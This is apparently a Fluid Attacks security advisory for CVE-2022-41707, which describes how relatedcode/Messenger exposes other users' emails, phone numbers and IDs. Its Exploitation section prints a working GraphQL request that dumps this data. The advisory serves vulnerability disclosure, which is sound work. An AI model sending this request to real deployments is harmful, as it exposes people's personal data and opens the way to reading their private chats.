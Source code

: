 ```yaml
---
slug: advisories/coldplay/
title: relatedcode/Messenger 7bcd20b - Information Disclosure
authors: Carlos Bello
writer: cbello
codename: coldplay
product: relatedcode/Messenger 7bcd20b
date: 2022-10-14 10:00 COT
cveid: CVE-2022-41707
severity: 6.5
description: relatedcode/Messenger 7bcd20b  -  Sensitive Information Disclosure
keywords: Fluid Attacks, Security, Vulnerabilities, Relatedcode, Messenger
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | relatedcode/Messenger 7bcd20b  -  Sensitive Information Disclosure |
| **Code name**         | [Coldplay](https://en.wikipedia.org/wiki/Coldplay)                 |
| **Product**           | relatedcode/Messenger                                              |
| **Affected versions** | Version 7bcd20b                                                    |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-14                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Business information leak - Personal Information                                                                            |
| **Rule**              | [226. Business information leak - Personal Information](https://docs.fluidattacks.com/criteria/vulnerabilities/226)         |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N                                                                                |
| **CVSSv3 Base Score** | 6.5                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-41707](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-41707)                                             |

## Description

Relatedcode/Messenger version 7bcd20b allows an authenticated external attacker to
access sensitive data of any user of the application. This is possible
because the application exposes user data to the public.

## Vulnerability

The application exposes the session data of the users of the application
to the public. Among the exposed data are:

* ID
* Email
* PhoneNumber
* Etc

![image.png](https://user-images.githubusercontent.com/51862990/195862599-c66cafc2-09a1-457d-88ba-c4b2fabdf24a.png)

The ID exposed in this vulnerability will help us to exploit even a
[broken access control](../tiesto/)
present in this application.

## Exploitation

To exploit this vulnerability, simply create an account on the server and
then send the following request:

```txt
POST /graphql HTTP/2
Host: relatedchat.io:4000
User-Agent: Something
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://relatedchat.io/
Content-Type: application/json
Authorization: Bearer [YOUR TOKEN]
Origin: https://relatedchat.io
Content-Length: 356

{"operationName":"ListUsers","variables":{},"query":"query ListUsers($updatedAt: Date, $workspaceId: String) {\n  listUsers(updatedAt: $updatedAt, workspaceId: $workspaceId) {\n    objectId\n    displayName\n    email\n  fullName\n    phoneNumber\n    photoURL\n    theme\n    thumbnailURL\n    title\n    workspaces\n    createdAt\n    updatedAt\n  }\n}"}
```

## Impact

An authenticated remote attacker can access sensitive user data. This allows
an attacker to obtain enough information to escalate to more serious attacks.
In our case, we managed to exploit a broken access control thanks to the data
leaked in this vulnerability. Thanks to this I was able to access all the
internal chat logs of all registered users.

## Our security police

We have reserved the CVE-2022-41707 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: relatedcode/Messenger 7bcd20b

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from the Offensive
Team of `Fluid Attacks`.

## References

**Vendor page** <https://github.com/relatedcode/Messenger>

## Timeline

<time-lapse
  discovered="2022-09-23"
  contacted="2022-09-23"
  replied="2022-09-23"
  confirmed="2022-09-23"
  patched=""
  disclosure="2022-10-14">
</time-lapse>
